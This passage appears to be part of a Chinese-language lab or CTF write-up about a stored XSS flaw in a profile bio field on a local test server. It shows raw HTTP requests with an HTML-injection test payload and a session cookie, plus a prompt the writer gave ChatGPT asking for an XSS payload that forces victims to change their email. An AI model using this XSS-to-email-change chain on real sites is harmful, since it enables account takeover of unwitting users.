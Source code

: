 ![image-20250901152230470](images/image-20250901152230470.png)

而界面本身存在xss漏洞，可以利用xss构造请求post,下面是chatgpt提示词

```
POST /api/update_bio HTTP/1.1
Host: 192.168.126.129:5000
Content-Length: 28
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.126.129:5000
Referer: http://192.168.126.129:5000/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6InZpY3RpbSJ9.aLVHow.ls2lxGVqRP3fBe-Irg8AEWi4lqU
Connection: keep-alive

{"bio":"<h1>ciallo111</h1>"}
存在一个xss漏洞，利用这个漏洞，让他每次触发xss的时候，实现发送
POST /update_email HTTP/1.1
Host: 192.168.126.129:5000
Content-Length: 12
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://192.168.126.129:5000
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.126.129:5000/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6InZpY3RpbSJ9.aLVHow.ls2lxGVqRP3fBe-Irg8AEWi4lqU
Connection: keep-alive

email=wodefa
```
